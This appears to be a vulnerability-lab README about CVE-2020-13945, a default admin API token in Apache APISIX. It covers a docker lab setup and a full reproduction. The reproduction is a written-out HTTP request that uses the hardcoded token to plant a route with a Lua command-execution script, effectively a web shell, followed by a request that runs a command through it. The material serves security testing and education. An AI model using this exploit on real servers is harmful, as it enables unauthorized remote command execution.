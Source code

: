 # Apache APISIX's Admin API default access token vulnerability (CVE-2020-13945)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX is a dynamic, real-time, high-performance API gateway. Apache APISIX has a default built-in API token `edd1c9f034335f136f87ad84b625c8f1` that can be used to access all the admin API, which leads to the remote LUA code execution through the `script` parameter added in the 2.x version. 

References:

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## Vulnerability Environment

Execute following command to start a Apache APISIX server 2.11.0 (this vulnerability hasn't been fixed until newest version, might be not considered fixing by vendor):

```
docker-compose up -d
```

After the server is started, you can see a default 404 page at `http://your-ip:9080`.

## Vulnerability Reproduce

Add a new evil router rule to the APISIX through admin api with default token:

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

Then, use this evil router to execute arbitrary commands:

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
